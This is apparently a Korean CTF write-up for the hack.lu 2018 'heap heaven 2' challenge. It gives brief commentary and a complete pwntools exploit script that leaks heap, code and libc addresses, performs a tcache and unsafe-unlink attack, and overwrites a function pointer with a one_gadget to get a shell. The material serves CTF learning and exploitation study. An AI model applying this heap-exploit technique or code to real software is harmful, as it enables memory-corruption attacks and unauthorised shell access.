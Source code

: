 ```yaml
---
title: hack.lu 2018 CTF - heap heaven 2
date: 2018-10-19 - 01:19:53
categories:
- Heap Exploit
- CTF write up
tags:
- How2heap tcache
- Unsafe Unlink
---
```


```c
Please select your action:
[1] : write to heap
[2] : alloc on heap
[3] : free from heap
[4] : leak
[5] : exit
```

시험공부하다가 하기 싫어서 쓰는글..ㅠㅠ pox 이후로 다시 만난 tcache..



별거 없고 glibc 2.28 tcache + unsafe unlink 이다.

릭할때 로컬에선 됐는데 리모트는 안되고 리모트는 되는데 로컬이 안될때가 있었다.. 뭐지..ㅋㅋㅋ

다른 라이트업 보니까 state fd 영역 쓰는 걸 이용해서 함수 포인터를 바꿔주더라..



```python
from pwn import *

w = remote("arcade.fluxfingers.net",1809)
#w = process("./heap_heaven_2")
libso = ELF("./heaven_libc.so.6")

def write(off, cont):
	w.sendline("1")
	w.sendlineafter("?",str(len(cont)))
	w.sendlineafter("?",str(off))
	w.send(cont)

def free(off):
	w.sendline("3")
	w.sendlineafter("?",str(off))

def leak(off):
	w.sendline("4")
	w.sendlineafter("?",str(off))
	w.recvline()
	return w.recvline()

for i in range(0,15):
    write(0x200*i,p64(0)+p64(0x201))

for i in range(4,13):
    free(0x10+0x200*i)

my = 0x610
free(my)

heap = u64(leak(my+0x8)[:-1].ljust(8,"\x00"))
log.info("heap:: "+hex(heap))

write(my,p64(heap-0x10))
code = u64(leak(my)[:-1].ljust(8,"\x00"))
log.info("code:: "+hex(code))
code_base = code-0x1670

offset = libso.symbols['__strtoul']
write(my,p64(code_base+0x3fc8))
libc = u64(leak(my)[:-1].ljust(8,"\x00")) -offset
log.info("libc:: "+hex(libc))

target = code_base+0x4048-0x10

write(0x10,p64(target-0x8)+p64(target))
write(0x200,p64(0x200)+p64(0x200))

free(0x210)

one=[0x45200 ,0x45254, 0xe75f0]

write(0x30,p64(target+0x38))
write(0x40,p64(libc+one[2])+p64(libc+one[2]))
write(0x10,p64(target+0x28))

w.interactive()

```



못 풀엇던거..

heap_hell은 로직버그엿고 slot_machine 은 tcache 트릭..
